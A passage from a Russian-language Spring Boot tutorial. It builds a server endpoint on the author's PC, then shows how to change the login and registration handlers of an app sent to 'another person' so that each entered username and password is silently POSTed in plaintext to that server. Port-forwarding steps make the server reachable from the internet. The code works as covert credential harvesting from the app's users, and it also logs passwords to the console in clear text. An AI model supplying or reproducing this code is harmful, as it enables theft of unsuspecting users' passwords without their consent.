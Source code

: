 [[Spring]][[Spring2]]
Для того чтобы данные, введенные пользователем на клиентской машине, отправлялись на ваш сервер, нужно сделать следующее:

1. **Настройка сервера (ваш ПК):**
    - На вашем ПК нужно запустить Spring Boot приложение, которое будет принимать данные от клиента.
    - Создайте endpoint на вашем сервере, который будет принимать данные.
2. **Настройка клиента (приложение у другого человека):**
    - В клиентском приложении нужно настроить отправку данных на ваш сервер после того, как пользователь введет данные.

### 6.1. Настройка сервера (ваш ПК)

#### 6.1.1. Создание Spring Boot приложения на вашем ПК

Создайте новое Spring Boot приложение на вашем ПК, если у вас его еще нет. Это приложение будет принимать данные от клиента.

#### 6.1.2. Создание контроллера для приема данных

Создайте контроллер, который будет принимать данные от клиента.
```java ignore
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class DataReceiverController {

    @PostMapping("/receive-data")
    public String receiveData(@RequestParam String username, @RequestParam String password) {
        System.out.println("Received data from client: " + username + ", " + password);
        return "Data received";
    }
}
```

#### 6.1.3. Запуск сервера

Запустите это Spring Boot приложение на вашем ПК. Оно будет слушать запросы на порту 8080 (по умолчанию).

### 6.2. Настройка клиента (приложение у другого человека)

#### 6.2.1. Добавление отправки данных на сервер

В клиентском приложении (то, которое вы отправляете другому человеку), нужно добавить код для отправки данных на ваш сервер.

Измените методы `handleRegistration` и `handleLogin` в вашем контроллере:
```java ignore
import org.springframework.web.client.RestTemplate;

@Controller
public class AuthController {

    private final String serverUrl = "http://your-server-ip:8080/receive-data"; // Замените на IP вашего сервера

    @PostMapping("/register")
    public String handleRegistration(@RequestParam String username, @RequestParam String password) {
        System.out.println("Received registration: " + username + ", " + password);

        // Отправка данных на ваш сервер
        sendDataToServer(username, password);

        return "redirect:/login";
    }

    @PostMapping("/login")
    public String handleLogin(@RequestParam String username, @RequestParam String password) {
        System.out.println("Received login: " + username + ", " + password);

        // Отправка данных на ваш сервер
        sendDataToServer(username, password);

        return "redirect:/home";
    }

    private void sendDataToServer(String username, String password) {
        RestTemplate restTemplate = new RestTemplate();
        String requestBody = "username=" + username + "&password=" + password;
        restTemplate.postForObject(serverUrl, requestBody, String.class);
    }
}
```

#### 6.2.2. Убедитесь, что `RestTemplate` добавлен в проект

Если `RestTemplate` не добавлен в ваш проект, добавьте его в `pom.xml`:
```xml ignore
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>
```

### 6.3. Настройка сети

#### 6.3.1. Убедитесь, что ваш сервер доступен извне

Для того чтобы клиент мог отправлять данные на ваш сервер, ваш сервер должен быть доступен из интернета. Если вы запускаете сервер дома, вам нужно настроить проброс портов на вашем роутере.

1. Узнайте ваш внешний IP адрес (например, через сайт [whatismyip.com](https://whatismyip.com/)).
2. Настройте проброс портов на вашем роутере:
    - Откройте настройки роутера.
    - Найдите раздел "Port Forwarding" или "Проброс портов".
    - Добавьте правило для проброса порта 8080 на IP адрес вашего ПК в локальной сети.

#### 6.3.2. Убедитесь, что брандмауэр разрешает подключения

На вашем ПК убедитесь, что брандмауэр разрешает входящие подключения на порт 8080.

### 6.4. Тестирование

1. Запустите серверное приложение на вашем ПК.
2. Запустите клиентское приложение на другом компьютере.
3. Введите данные на сайте клиентского приложения и отправьте форму.
4. Проверьте консоль серверного приложения — данные должны появиться в консоли.